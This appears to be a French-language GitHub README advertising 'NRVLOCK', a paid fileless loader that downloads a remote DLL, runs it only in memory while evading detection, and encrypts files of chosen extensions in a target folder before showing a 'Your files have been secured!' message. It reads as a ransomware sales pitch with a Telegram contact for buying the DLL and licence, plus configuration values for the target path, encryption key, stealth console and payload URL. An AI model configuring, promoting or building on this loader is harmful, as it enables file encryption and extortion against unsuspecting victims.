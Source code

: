 🚀 Chargeur Sécurisé NRVLOCK


FOR BUY PRÍVATE NRVLOCK DLL + LICENCE KEY CONTACT ME ON TELEGRAM @CyberNev or on HF @CyberNrv

⚠️ Avertissement

© 2024 CyberNrv. Tous droits réservés.
Ce logiciel est privé et confidentiel. Le partage, la modification ou la redistribution de ce code sont strictement interdits. Toute utilisation, distribution ou analyse non autorisée de ce chargeur constitue une violation des termes définis par l’auteur.


---

🔒 Objectif

Ce chargeur est conçu pour charger NRVLOCK.dll en mémoire de manière sécurisée, sans laisser de traces sur le disque.
Il garantit une exécution furtive et une opération exclusivement en mémoire, ce qui le rend hautement efficace et indétectable.


---

🔧 Comment ça fonctionne ?

1️⃣ Télécharge la DLL NRVLOCK.dll distante depuis une URL prédéfinie.
2️⃣ Charge la DLL directement en mémoire (sans écriture sur le disque).
3️⃣ Exécute la fonction NRVRUN dynamiquement, en passant des arguments personnalisables.
4️⃣ Efface la mémoire après exécution, ne laissant aucune trace.


---

🔹 Configuration

Pour utiliser ce chargeur, remplacez les valeurs suivantes par les vôtres :

string target = "C:\\Users\\Public\\Documents";  // 📂 Répertoire cible
string extensions = ".txt;.docx";  // 📝 Extensions de fichiers à traiter
string key = "YourEncryptionKey";  // 🔑 Clé de chiffrement
string lkey = "YourLicenseKey";  // 🔏 Clé de licence
bool ViewConsole = true;  // 🖥️ Affichage de la console (true = visible, false = furtif)
string msg = "Your files have been secured!";  // ✉ Message personnalisé après exécution
string dllUrl = "https://yourserver.com/NRVLOCK.dll";  // 🔗 URL de téléchargement de la DLL NRVLOCK


---

🚀 Utilisation privée uniquement. Respectez les termes d’utilisation.
© 2024 CyberNrv. Tous
droits réservés.

